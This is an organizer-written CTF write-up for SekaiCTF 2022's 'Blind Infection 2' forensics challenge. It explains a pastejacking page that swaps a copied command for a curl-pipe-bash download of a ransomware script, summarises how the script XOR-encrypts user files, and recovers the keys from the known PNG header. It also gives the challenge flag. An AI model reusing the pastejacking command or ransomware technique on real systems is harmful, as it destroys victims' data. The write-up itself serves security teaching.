 ```yaml
---
title: 'Blind Infection 2'
description: 'An organizer-written writeup compilation for selected forensics challenges from the SekaiCTF 2022 capture-the-flag competition.'
date: 2022-11-28
authors: ['enscribe']
order: 2
---
```



<div class="invisible h-0! [&+*]:mt-0 [&+*_*]:mt-0">
## Blind Infection 2
</div>

<Challenge
  title="Blind Infection 2"
  authors={["Battlemonger"]}
  category="Forensics"
  points={488}
  solves={15}
  files={["chall.zip"]}
  flag="SEKAI{D4R3_4CC3PT38_4N8_4U5T38}"
>
  *Investigator*: Here are your backups, but what about rest of your files?  
  *Me*: Umm...  
  *Investigator*: I'm gonna need more details regarding what exactly you were doing.  
</Challenge>

<Callout variant="warning">
  This payload contains ransomware. Consider using a fresh virtual machine, as you may risk losing your data. Although static analysis is safe (and the ransomware is user-triggered), proceed with caution.
</Callout>

We've managed to restore the contents of `Documents/`, but this user has unfortunately failed to backup `Pictures/`. To decrypt them, we need to know the encryption method used. As of now, we only have the plaintext and ciphertext from Part 1, which currently don't prove that useful. We need more details.

### The SQL Rabbit Hole

Continuing to scroll through browser history, near the end of the table we come across instances of the user searching about 'virus' and 'virus remover'. This probably happened after the user's files got encrypted. Looking at the URL visits just before this, we see that the user was downloading various rhythm game-related items, including [osu!](https://osu.ppy.sh/) beatmaps and an `.apk` of [Project Sekai](https://projectsekai.fandom.com/wiki/Project_SEKAI_COLORFUL_STAGE!). This rabbit hole eventually led to a string of suspicious websites — including https://sekaictf-tunes.netlify.app:

![Screenshot of pure HTML page with a suspicious wget command](assets/sussy.png)


<Code code={Code7} lang="html" title="index.html" />

Check out this snippet above: instead of copying `wget sekairhythms.com/epicmusic.zip{:sh}`, we end up actually copying `curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash{:sh}`, which is a malicious bash script.

This is the premise of the challenge. **Never copy and paste code/commands from internet blindly**! That's where the challenge name comes from — "Blind Infection"!

This is a classic [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/) attack. Let's _not_ copy it into the terminal and instead analyze the `.sh` file that's `curl{:sh}`'ed. Visit the [original link](https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh) to see the raw code:


<Code code={Code8} lang="sh" title="muhahaha.sh" />

Looks like it's obfuscated by defining a crap ton of environmental variables and evaluating the concatenated contents. To deobfuscate, simply change the `eval{:sh}` term to `echo{:sh}` to see what actually runs:


<Code code={Code9} lang="sh" title="muhahaha.sh" />

Let's do a quick analysis. This script:

1. Downloads a binary quietly
2. For each file in the `Documents/` and `Pictures/` folder, it:
    - Generates a 16-byte key
    - Performs a XOR operation with the key
    - Removes the key (meaning the key is different every time)
3. Deletes the binary and clears the contents of `~/.bash_history`

We now know a simple XOR was used to encrypt `Pictures/`. However, we don't know the keys, and it would take until the heat death of the universe to brute force 16 bytes. Additionally, we can't extract utilize known-plaintext attacks on Part 1 since each key is unique. We'll need a different solution.

We know that:

1. The files in `Pictures/` are in the `.png` format
2. XOR is reversible if we have a key
3. We do not have a key readily available

But, there is a weakness! If we research a bit into the `.png` format, we learn that the first 16 bytes of a `.png` are always same:

```text
89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52
Header Block                         IHDR Block
```

With this, we can XOR the first 16 bytes of each encrypted `.png` with this as the key to obtain the original, unique key. We can now decrypt each picture with this Python script:


<Code code={Code10} lang="py" title="solve.py" />

Use the `strings` command on `flag.png` to flag the challenge.